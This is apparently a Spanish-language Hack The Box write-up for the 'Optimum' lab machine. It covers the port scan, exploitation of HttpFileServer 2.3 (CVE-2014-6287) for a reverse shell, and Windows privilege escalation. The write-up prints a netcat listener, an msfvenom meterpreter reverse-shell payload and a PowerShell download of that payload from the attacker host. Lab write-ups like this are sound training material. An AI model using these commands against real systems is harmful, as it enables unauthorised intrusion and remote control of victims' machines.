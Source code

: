 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
permalink: /portfolio/
collection: oscp
excerpt: 'Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.'
header:
  teaser: https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 75%;"}

Optimum es una máquina sencilla que consiste en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

<br>
**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<br>
**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo <a href="https://www.exploit-db.com/exploits/49584">CVE-2014-6287</a>

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

<br>
**Escalada de privilegios**

Para comenzar a enumerar posibles vectores de escalada de privilegios hemos ejecutado la herramienta <a href="https://github.com/peass-ng/PEASS-ng">WinPEAS</a>. Tras ejecutar la herramienta apreciamos información interesante como por ejemplo la credencial en texto plano del usuario kostas.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/user.png){: .align-center}

Algo de lo que deberíamos de darnos cuenta es de que la herramienta Watson no muestra ninguna salida al ejecutar WinPEAS.

Esto se debe a que la versión .NET del host no permite el uso de Watson (se necesita como mínimo la versión 4.5). Para comprobarlo podemos consultar los directorios de la siguiente ruta:

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/net.png){: .align-center}

Lo que debemos de hacer en casos como este es recurrir a su predecesor <a href="https://github.com/rasta-mouse/Sherlock">Sherlock</a>

En mi caso me econtre un error ya que la shell que nos ha propocionado el exploit de HttpFileServer no es lo suficientemente estable. Como bypass de este problema podemos generar una shell meterpreter desde nuestra máquina atacante.
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.14.10 LPORT=443 -f exe -o met.exe
```

Para compartir la shell podemos ejecutar un servidor http con python
```
python3 -m http.server 80
```

Aprovechando la shell PS que ya tenemos descargamos el payload del siguiente modo
```
iwr -uri http://10.10.14.10/met.exe -outfile met.exe
```

Por parte de nuestra máquina atacante a la escucha deberemos de utilizar el multi/handler de msfconsole y definir los siguientes parámetros.
```
set lhost <IP de nuestra máquina atacante>

set lport <puerto a la escucha de nuestra máquina atacante>

set payload windows/x64/meterpreter_reverse_https
```

Tras esto obtendremos una shell estable desde la cual podremos ejecutar la herramienta Sherlock. 

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/Sherlock.png){: .align-center}

Para explotar las vulnerabilidades encontradas he decidido utilizar el exploit MS16-135.
![image-left](https://haoxgit.github.io/haox/assets/images/optimum/exploit.png){: .align-center}

